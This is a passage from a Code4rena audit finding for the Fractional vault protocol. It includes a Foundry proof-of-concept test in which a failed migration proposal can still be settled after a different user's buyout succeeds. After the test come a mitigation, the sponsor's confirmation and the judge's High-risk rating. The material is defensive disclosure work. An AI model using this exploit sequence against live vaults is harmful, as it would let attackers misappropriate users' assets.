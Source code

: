     	// since the target price is reached, bob starts the buyout
    	bob.migrationModule.commit(vault, 1);

    	vm.warp(rejectionPeriod + 1);

    	// after buyout fails, bob ends it
    	// note: bob's proposal is still commited even though it has failed
    	bob.buyoutModule.end(vault, burnProof);
    	bob.migrationModule.withdrawContribution(vault, 1);

    	// Alice makes a different proposal (we use bob's data for simplicity)
    	alice.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 10,
    		1 ether
    	);

    	// Alice joins the proposal with 6000 fractions
    	alice.migrationModule.join{value: 1 ether}(vault, 2, 6000);

    	// since the target price is reached, alice starts the buyout
    	alice.migrationModule.commit(vault, 2);

    	vm.warp(proposalPeriod * 10);

    	// after buyout succeeds (as it has >50% of fractions), alice ends it
    	// note: both bob's and alice's proposals are commited at this point
    	alice.buyoutModule.end(vault, burnProof);

    	// Now bob (whose buyout has failed) settles his proposal
    	// It should revert, but it succeeds
    	vm.expectRevert(
    		abi.encodeWithSelector(IMigration.UnsuccessfulMigration.selector)
    	);
    	bob.migrationModule.settleVault(vault, 2);
    }

### Recommended Mitigation Steps

Add a new storage variable for currently active proposal id. Allow calling `settleVault` only for active proposal id (and also only if buyout's proposer equals `Migration` address, otherwise there can be a different successful buyout not connected to the active proposal). Also add appropriate checks with active proposal in the other functions as well (don't allow to commit if there is an active proposal etc).

**[Ferret-san (Fractional) confirmed](https://github.com/code-423n4/2022-07-fractional-findings/issues/286)**

**[HardlyDifficult (judge) commented](https://github.com/code-423n4/2022-07-fractional-findings/issues/182#issuecomment-1212397508):**
> A failed migration can settle after a successful buyout. Agree this is High risk.
> 
> Selecting this submission as the primary for including a clear coded POC.

